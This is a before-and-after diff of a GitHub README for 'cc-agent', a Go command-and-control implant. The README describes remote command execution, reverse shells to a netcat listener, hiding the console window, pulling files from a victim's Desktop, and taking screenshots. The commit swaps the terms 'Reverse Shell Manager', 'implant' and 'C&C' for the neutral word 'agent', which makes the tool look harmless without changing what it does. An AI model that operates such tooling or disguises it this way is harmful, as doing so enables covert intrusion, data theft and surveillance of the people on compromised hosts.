

Before and after one commit to JeanBonBeurre34/cc-agent, a Markdown page: README.md, 2 parts joined by grey strips. Shown: that part at 98% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Update readme
Update readme

````diff
--- a/README.md
+++ b/README.md
@@ -1,14 +1,14 @@
 # cc-agent
-# Project Title: Go Reverse Shell Manager
+# Project Title: Agent
 
 ## Overview
 
-The Go Reverse Shell Manager is a comprehensive solution designed to facilitate remote command execution and management through a Go-based agent. This system allows for executing predefined or dynamic commands received from a server, with the capability to initiate a reverse shell session for in-depth interaction. This README provides an overview of the project, including setup instructions, usage examples, and important security considerations.
+The agent is a comprehensive solution designed to facilitate remote command execution and management through a Go-based agent. This system allows for executing predefined or dynamic commands received from a server, with the capability to initiate a shell session for in-depth interaction. This README provides an overview of the project, including setup instructions, usage examples, and important security considerations.
 
 ## Features
 
 - **Remote Command Execution**: Execute commands received from a centralized server.
-- **Reverse Shell Capability**: Open a reverse shell to a specified listener, allowing for interactive command execution.
+- **Shell Capability**: Open a reverse shell to a specified listener, allowing for interactive command execution.
 - **Result Reporting**: Automatically sends the execution results of commands back to the server.
 - **Hide Console Window**: Optionally runs without a visible console window to reduce footprint on the host system.
 - **Download file on the remote host**: Download file from the host where the agent is running
@@ -77,13 +77,13 @@ You just need to:
 4. run it ```bash ./build.sh```
 
 ## Executing Commands Remotely
-The implant support the execution of remote command. You can execute the command and retrieve the result of the command.
+The agent support the execution of remote command. You can execute the command and retrieve the result of the command.
 Use the Python client to submit commands to the server:
 ```bash
 python client.py --command "ipconfig"
 ```
 
-To initiate a reverse shell session, submit the special "shell" command:
+To initiate a shell session, submit the special "shell" command:
 Replace the ip after the shell with your call back ip the port can be changed too.
 ```bash
 python client.py --command "shell 192.168.56.101:4444"
@@ -94,8 +94,14 @@ Ensure you have a listener running on the specified port before initiating the r
 nc -lvp 4444
 ```
 
+## Collect agent command results
+An id will be provided once a command has be run using the client. To retrieve the command results use the following command:
+```bash
+python client.py --get_result "1"
+```
+
 ### Download file from the remote host
-The C&C support downloading file from the remote host.
+The agent support downloading file from the remote host.
 To initiate a file to be downloaded just specify the path to the file on the remote host and the filename:
 ```bash
 python client.py --command "download c:\Users\vboxuser\Desktop\document.docx document.docx"
@@ -103,7 +109,7 @@ python client.py --command "download c:\Users\vboxuser\Desktop\document.docx doc
 The file will be downloaded on the C&C server and stored on inside a local folder named received_file.
 
 ### Take a screenshot on the remote host
-The C&C support taking a screenshot
+The agent support taking a screenshot
 To initiate take a screenshot just type:
 ```bash
 python client.py --command "screenshot"
````
Also changed, not shown: other parts of README.md (+2 -2 lines).
